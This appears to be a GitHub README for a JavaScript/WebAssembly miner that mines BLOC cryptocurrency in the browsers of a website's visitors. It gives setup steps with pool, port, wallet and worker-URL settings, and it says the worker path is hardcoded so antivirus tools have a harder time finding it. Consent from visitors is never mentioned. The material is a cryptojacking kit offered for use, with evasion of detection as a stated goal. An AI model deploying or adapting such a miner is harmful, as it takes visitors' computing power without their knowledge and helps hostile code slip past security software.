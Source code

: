 # BLOC-javascript-miner

With this miner, you can mine [BLOC](https://bloc.money/) coins using your visitors CPU power. It will mine directly in browser.  

### Files available in this script

- **m.js** - the actual miner that handles [javascript workers](https://www.w3schools.com/html/html5_webworkers.asp) and [websockets connections](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API)
- **worker.js** - the worker receives a job and calculates the hash
- **cn.js** - the actual [webasm](https://webassembly.org/) mining algorithm
- **test_with_output.html** - html file that outputs some mining stats (this will start the whole mining process)
- **test_minimal.html** - html file with minimal setup (no mining output stats)

### How to set it up

Copy all the files on a domain and change the following:

```javascript
var mining_pool = 'bloc-mining.eu'; // mining pool domain
```

this is the mining pool domain. we recommend leaving it untouched.

```javascript
var mining_port = '4444'; // mining pool port
```

this is the mining pool port (for CPU mining). we recommend leaving it untouched.

```javascript
var mining_wallet = 'abLoc5jeufY8yWkZgjDJnP6DuuhyGE3jb5F6kmKKqqynhbUDgfvvC2FjdP5DjjnoW2R9aecMDETTbdMuFNFzHRWvGNkzHGKHMT9'; // your wallet address
```

this is the wallet where the coins will be sent by the mining pool.

Edit m.js file and go to the line where you find  

```javascript
var newWorker = new Worker("https://bloc-mining.com/assets/frontpanel/js/newminer/worker.js?_=" + Math.random().toString());
```

the `https://bloc-mining.com/assets/frontpanel/js/newminer/worker.js` is the path to `worker.js` file from the `js` folder. Make sure you use the absolute path, like it is here.  
The reason it's hardcoded, is to be harder for antiviruses to find it.  

### How to run it

Simply navigate to `test_minimal.html` and you will start mining.

### Notes

- To mine, choose one of the .html files `test_with_output.html` or `test_minimal.html`. Do not use them both!
- All .js files must be in the same folder, otherwise you need to change the paths youself